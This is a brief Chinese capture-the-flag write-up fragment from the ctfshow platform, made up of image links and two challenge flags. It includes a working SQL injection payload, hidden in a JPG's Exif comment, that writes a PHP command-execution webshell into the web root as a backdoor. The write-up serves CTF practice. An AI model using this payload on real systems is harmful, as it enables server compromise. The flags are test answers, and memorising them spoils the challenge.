

ctfshow{4ac6e2a9-bbf3-44c9-acc9-d2a566dfd142}

## Exif注释包含恶意代码

使用exiftool将jpg转成这种格式


```
C64File "');select 0x3c3f3d60245f4745545b315d603f3e into outfile '/var/www/html/1.php';--+
```

上传

在1.php自动生成后门文件



ctfshow{2a405738-c872-412b-9f5e-57e422864fb4}



